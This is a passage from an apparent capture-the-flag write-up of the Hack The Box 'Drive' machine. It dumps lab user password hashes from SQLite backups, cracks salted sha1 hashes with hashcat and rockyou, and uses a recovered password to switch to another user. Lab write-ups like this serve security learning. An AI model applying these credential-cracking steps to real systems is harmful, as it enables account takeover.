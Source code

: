 Seems that there are some users and what not. Within the `accounts_customuser` table, there are some hashes:

```
sqlite> select * from accounts_customuser;
16|pbkdf2_sha256$390000$ZjZj164ssfwWg7UcR8q4kZ$KKbWkEQCpLzYd82QUBq65aA9j3+IkHI6KK9Ue8nZeFU=|2022-12-26 06:21:34.294890|1|admin|||admin@drive.htb|1|1|2022-12-08 14:59:02.802351
21|pbkdf2_sha256$390000$npEvp7CFtZzEEVp9lqDJOO$So15//tmwvM9lEtQshaDv+mFMESNQKIKJ8vj/dP4WIo=|2022-12-24 22:39:42.847497|0|jamesMason|||jamesMason@drive.htb|0|1|2022-12-23 12:33:04.637591
22|pbkdf2_sha256$390000$GRpDkOskh4irD53lwQmfAY$klDWUZ9G6k4KK4VJUdXqlHrSaWlRLOqxEvipIpI5NDM=|2022-12-24 12:55:10.152415|0|martinCruz|||martin@drive.htb|0|1|2022-12-23 12:35:02.230289
23|pbkdf2_sha256$390000$wWT8yUbQnRlMVJwMAVHJjW$B98WdQOfutEZ8lHUcGeo3nR326QCQjwZ9lKhfk9gtro=|2022-12-26 06:20:23.299662|0|tomHands|||tom@drive.htb|0|1|2022-12-23 12:37:45
24|pbkdf2_sha256$390000$TBrOKpDIumk7FP0m0FosWa$t2wHR09YbXbB0pKzIVIn9Y3jlI3pzH0/jjXK0RDcP6U=|2022-12-24 16:51:53.717055|0|crisDisel|||cris@drive.htb|0|1|2022-12-23 12:39:15.072407
```

The weird thing is that all the different archive files have different hashes in the same table. 

```
sqlite> select * from accounts_customuser;
21|sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a|2022-12-26 05:48:27.497873|0|jamesMason|||jamesMason@drive.htb|0|1|2022-12-23 12:33:04
22|sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f|2022-12-24 12:55:10|0|martinCruz|||martin@drive.htb|0|1|2022-12-23 12:35:02
23|sha1$DhWa3Bym5bj9Ig73wYZRls$3ecc0c96b090dea7dfa0684b9a1521349170fc93|2022-12-26 06:03:57.371771|0|tomHands|||tom@drive.htb|0|1|2022-12-23 12:37:45
24|sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f|2022-12-24 16:51:53|0|crisDisel|||cris@drive.htb|0|1|2022-12-23 12:39:15
30|sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3|2022-12-26 05:43:40.388717|1|admin|||admin@drive.htb|1|1|2022-12-26 05:30:58.003372
```


I first tried to crack the `sha1` hashes. A but of googling reveals that this uses `hashcat -m 124`, so I could crack some of them:

```
$ cat sha_hashes | awk -F '|' {'print $2'} > db
$ hashcat -m 124 db /usr/share/wordlists/rockyou.txt
sha1$Ri2bP6RVoZD5XYGzeYWr7c$71eb1093e10d8f7f4d1eb64fa604e6050f8ad141:johniscool
sha1$DhWa3Bym5bj9Ig73wYZRls$3ecc0c96b090dea7dfa0684b9a1521349170fc93:john boy
sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a:johnmayer7
```

Using `johnmayer7` allows us to `su` to `tom`.

![](../../.gitbook/assets/htb-drive-image-10.png)

### Format String Vulnerability --> Stack Canary (unused)
